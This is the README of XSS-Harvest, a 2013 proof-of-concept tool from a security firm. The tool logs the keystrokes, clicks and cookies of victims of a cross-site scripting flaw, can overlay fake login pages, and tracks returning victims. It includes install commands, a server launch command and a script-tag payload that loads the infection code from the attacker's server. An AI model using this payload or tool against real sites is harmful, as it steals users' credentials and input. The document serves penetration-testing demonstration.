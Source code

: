XSS-Harvest
===========

XSS-Harvest - a proof of concept harvesting tool for demonstrating the real power of XSS attacks


v0.4 - geoff.jones@cyberis.co.uk

Copyright 2013 Cyberis Limited

## About
XSS-Harvest is multi-threaded pre-forking web server written in Perl, and requires no dependencies other than a couple of common Perl modules; you do not need a web server or database to use this tool. Before going into the detail, I'll list the high level functionality below:

* Infection script adds relevant event listeners (keystrokes, onload() and mouse clicks) to the vulnerable page and sets up communication with the XSS-Harvest server.
* Any key entered will be sent covertly to the server.
* Any mouse click performed will be analysed and the data covertly sent to the server.
* Optionally 'redress' the vulnerable page to display a different page on the same subdomain - e.g. a login form.
* If redressing the victim's browser, allow subsequently loaded pages to be also 'infected' - assuming they don't break the same-origin policy (i.e. they're on the same subdomain).
* Keeps track of victims for the lifetime of the XSS-Harvest cookie (future visits are recognised as a returning victim).
* Each victim has a separate history file containing all events, cookies and keystrokes. 
* Server console displays real time data received (due to multi-threaded nature, keystrokes are displayed as '.' characters to avoid confusion).
* Tested in IE6-9 (reflected XSS protection in IE9 will limit exploitation to stored XSS only in most cases), FF5, Chrome and various mobile browsers (Safari and Android). Please let me know your success with other browsers.
* Overcomes browser oddities, such as Internet Explorer throttling requests to the same URL when exfiltrating keystrokes.

## Dependencies
Requires the following dependencies:
HTTP::Server::Simple::CGI, Digest::MD5, Time::Local, Getopt::Std, Net::Server::PreFork

### Ubuntu/Debian install

    sudo apt-get install libhttp-server-simple-perl libdigest-md5-file-perl libtime-local-perl libnet-server-perl

### OSX Install 

    sudo cpan install HTTP::Server::Simple::CGI
    sudo cpan install Digest::MD5
    sudo cpan install Digest::Time::Local
    sudo cpan install Getopt:Std
    sudo cpan install Net::Server::Prefork

## Usage
Start server (with redress:)

* ./xss-harvest.pl -l -r http://vulnerablepage.local/login.html

XSS:

* \<script src="http://\<serverip\>:\<serverport\>/i"\>\</script\>
